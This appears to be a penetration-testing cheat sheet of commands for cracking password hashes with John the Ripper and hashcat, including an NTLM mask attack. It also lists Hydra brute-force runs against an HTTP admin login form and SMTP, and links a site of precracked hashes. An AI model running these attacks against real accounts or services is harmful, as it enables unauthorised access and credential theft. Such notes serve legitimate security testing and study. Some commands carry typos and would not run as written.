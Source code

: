# Password Cracking

```sql
hash-identifier [hash]
```

```sql
john hashes.txt
```

```sql
hashcat -m 500 -a 0 -o output.txt –remove hashes.txt /usr/share/wordlists/rockyou.txt
```

-   Brute force crack for NTLM hashes with an uppercase, lowercase, lowercase, and 4 digit mask
	```sql
	hashcat -m 1000 dump.txt -o output.txt --remove -a 3 ?u?l?l?d?d?d?d
	```
	
-   List of hash types and examples for hashcat [https://hashcat.net/wiki/doku.php?id=example\_hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)
-   [https://hashkiller.co.uk](https://hashkiller.co.uk/) has a good repo of already cracked MD5 and NTLM hashes


## **Bruteforcing:**

```sql
    hydra 10.0.0.1 http-post-form “/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid” -P /usr/share/wordlists/rockyou.txt -l admin
```

```sql
hydra -l admin -P /usr/share/wordlists/rockyou.txt -o results.txt IPADDR PROTOCOL
```

-   Hydra SMTP Brute force
	```sql
	hydra -P /usr/share/wordlistsnmap.lst 192.168.X.XXX smtp –V
	```




